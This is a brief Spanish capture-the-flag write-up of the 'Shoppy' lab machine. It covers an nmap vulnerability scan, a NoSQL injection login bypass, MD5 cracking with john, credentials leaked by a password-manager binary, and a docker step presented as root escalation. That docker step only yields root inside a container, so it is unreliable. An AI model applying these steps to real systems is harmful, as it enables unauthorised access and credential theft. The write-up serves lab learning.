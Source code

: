 # ShoppyWriteup

Este fue mi primer writeup

~~~
nmap -v -sS -oX vulnerabilidades.xml --stylesheet=https://svn.nmap.org/nmap/docs/nmap.xsl --script=vuln 10.10.11.180
~~~

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110175411.png)

Nmap nos dice que está el puerto 80, entonces entramos y hay un login
Pero antes editamos los hosts para entrar

~~~
sudo nano /etc/hosts
~~~

Ahora si entramos y calamos un sql injection básico

![imagen](https://github.com/Hamibubu/Writeups/blob/main/ShoppyWriteup/Pasted%20image%2020221101193140.png?raw=true)

Usamos sqlinjection

Pero no jala con la normal, investigamos y descubrimos

Esta es mongoDB

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110175411.png)

Entramos y vemos admin

Sacamos la contra que esta con md5, esa es la de admin, falta de le josh que es otro user

~~~
┌──(kali㉿kali)-[~]
└─$ sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.md5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-11-01 21:44) 0g/s 20787Kp/s 20787Kc/s 20787KC/s  fuckyooh21..*7¡Vamos!

~~~

## Escalar privilegios

Vemos un password manager

~~~
jaeger@shoppy:/home/deploy$ sudo -u  deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ ls
creds.txt  password-manager  password-manager.cpp
$ cat cred
cat: cred: No such file or directory
$ cat creds.txt
Deploy Creds :
username: deploy
password: Deploying@pp!
~~~

Conseguimos las creds

Corremos con docker

~~~       
$ docker run -di --name flast101 alpine:latest
53d650ce3ac0a77c2516cf21fc171f2ed443779bb1a8112a7ba05931edbf1bc9
$ docker exec -ti flast101 sh
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # whoami
root
~~~

Listo



